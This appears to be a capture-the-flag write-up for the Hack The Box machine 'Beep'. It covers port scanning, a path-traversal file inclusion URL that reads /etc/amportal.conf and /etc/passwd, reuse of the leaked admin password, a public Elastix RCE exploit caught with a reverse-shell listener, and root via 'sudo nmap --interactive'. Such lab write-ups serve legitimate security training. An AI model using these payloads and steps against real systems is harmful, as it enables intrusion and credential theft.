 <h2>Target: 10.10.10.7 Beep </h2>
<b>Initial Access:</b><br>
Step 1:  nmap -Pn 10.10.10.7 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ','   <br>
Nmap returns open ports: 22,25,80,110,111,143,443,877,993,995,3306,4190,4445,4559,5038,10000 <br><br>

Step 2: Enumerate these open ports further using nmap: nmap -Pn 10.10.10.7 --min-rate=5000 -p 22,25,80,110,111,143,443,877,993,995,3306,4190,4445,4559,5038,10000 -sC -sV -oN nmap-beep

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6e253ed6-6426-4ab8-9921-3341c08ca159)

Step 3:  Visiting port 80 redirects to port 443 and shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/f182da67-3c80-427d-994e-a8f007cf62c9)

The site shows a login page using elastix.  

Step 4: Google search ‘elastix exploit’ shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/08bf6fc5-69f3-4a23-a591-7767e60b0286)
 
Google returns a lot of articles showing exploits.  Start with the exploit database on the remote command execution as rce is much more interesting than local file inclusion. 

Opening the https://www.exploit-db.com/exploits/18650 shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e7c6338a-809f-4353-b6b8-9c853d2a5248)
 
Step 5: Download the exploit using the command: searchsploit -m 18650

Update rhost to 10.10.10.7, and lhost to our ip address.  Extension needs to be updated also but we do not know the extension.  If we try the exploit with the default extension of 1000 the exploit fails.  

Step 6: Since we don’t know the extension, move on to the local file inclusion exploit we found earlier in our google search https://www.exploit-db.com/exploits/37637 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6aa59ebc-93aa-470d-9bef-387be6d996b7)
  
This shows the exact payload to get lfi.  

Step 7: Navigate to the lfi shown in the exploit database article above: https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/119a855a-08cc-4b69-8d2c-b912843610d4)
   
To make it easier to read, view it through the source code (control+u):

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/88c1e845-e4a3-4e39-95f2-484556438cab)

This shows a username of ‘admin’ and passowrd of ‘jEhdIekWmdjE’.  

Reading further down shows: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e9de66ed-c870-477c-85ed-4b23efda7b33)
 
This shows a /admin directory.

Step 8: Use the local file inclusion to view /etc/passwd:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/5929205c-135f-4449-8b3c-866e96ceacc3)
 
This shows that there is a username of ‘asterisk’ on the target.

Step 9: Log into the site (port 443) using these credentials.  After login, the site shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/2c6c114a-35c3-4393-a5b9-ba094e5e99c1)
  
Step 10: Visiting the /admin directory automatically redirects to /admin/config.php and shows a login prompt:



![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/8af797dd-3855-43e6-9cbb-3c5d494e59b2)  

Step 11: Reuse the same credentials of ‘admin’ and ‘ jEhdIekWmdjE’ to log into /admin directory.  After logging in the page shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/9f05949c-843d-4766-b809-987fe34db9b0)
  
Step 12: Click on ‘Extensions’ (on the left hand side).  After clicking on ‘Extensions’ the page shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/ddf878f4-e6b8-4a50-8add-2986cd123076)
 
This ‘Extensions’ page shows a valid extension number of 233 (right hand side). 

Step 13: Go back to the rce python script of 18650.py and enter in the extension number of 233.  

Step 14: Open a netcat/pwncat listener to catch the reverse shell: pwncat-cs -lp 443

Step 15: Run the rce exploit: python2 18650.py

We have shell as user ‘asterisk’.  We can get the flag in /home/fanis/user.txt.
___________________________________________
<b>Privilege Escalation:</b><br>
Step 1: Run the command: Sudo -l
 
![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e31547c9-b3f0-45a6-8426-5881641fe32d)
 
This shows plenty of commands we can run with sudo and we can use many of these to escalate to root.  We will choose /usr/bin/nmap (gtfobins on nmap shows the commands to perform to escalate to root). 

Step 2: Run the command: sudo nmap --interactive

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/0ce1b8cf-5d9b-460e-ac41-39efc68a015a)

This opens nmap in interactive mode.  

Step 3: In the nmap interactive mode run the command: !/bin/bash

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/229530d8-587e-4bcc-8591-f8dff0e5e30d)

We have shell as root.  We can get the flag in /root/root.txt
